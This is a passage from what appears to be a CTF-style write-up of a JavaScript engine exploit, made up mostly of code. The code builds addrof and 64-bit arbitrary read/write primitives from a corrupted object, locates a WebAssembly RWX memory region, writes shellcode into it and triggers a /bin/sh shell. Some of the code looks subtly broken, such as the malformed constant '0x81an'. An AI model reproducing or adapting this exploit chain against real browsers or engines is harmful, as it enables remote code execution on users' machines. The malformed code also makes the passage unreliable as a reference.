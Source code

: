 Once we get he corrupted instance, It should be straight forward exploitation. We can get `addrof` primitive and try to get arb read/ write primitive.

```js
function addrof(obj){
    corrupted_instance.x[0] = obj;
    __f64_buf[0] = corrupted_instance.a[8];
    return __u32_buf[0];
}

// overwrite the length of `a` array.
corrupted_instance.x[5] = 0x10000;

let oob = [1.1, 2.2, 3.3];
let addr_oob = addrof(oob);
let addr_a = addrof(corrupted_instance.a);

// Quick check
if(addr_oob < addr_a && corrupted_instance.a.length != 0x10000){
    console.log("Exploit Failure!");
}

let off = (addr_oob - addr_a ) + 0xc;
if(off%8 != 0){
    off -= 4;
}
off = off / 8;
off += 9;
```

```js
print("Achieved 64 bit read write primitive.")
function write_64(addr, val){
    corrupted_instance.a[off] = itof(BigInt(0x3*0x100000000 + addr-8));
    oob[0] = itof(BigInt(val));
}

function read_64(addr){
    corrupted_instance.a[off] = itof(BigInt(0x3*0x100000000 + addr-8));
    return ftoi(oob[0]);
}
```

```js
let addr_wasm = addrof(wasm_instance);
let addr_rwx = read_64(addr_wasm + 0x48);

print("Leaks:")
print("wasm_isntance: " + addr_wasm.toString(16));
print("RWX region: " + addr_rwx.toString(16));

let shell_off = 0x81an

// get the shellcode in memory.
f1();
write_64(addrof(wasm_instance_helper)+0x48, addr_rwx+shell_off);

// trigger the /bin/sh syscall.
f2();
```
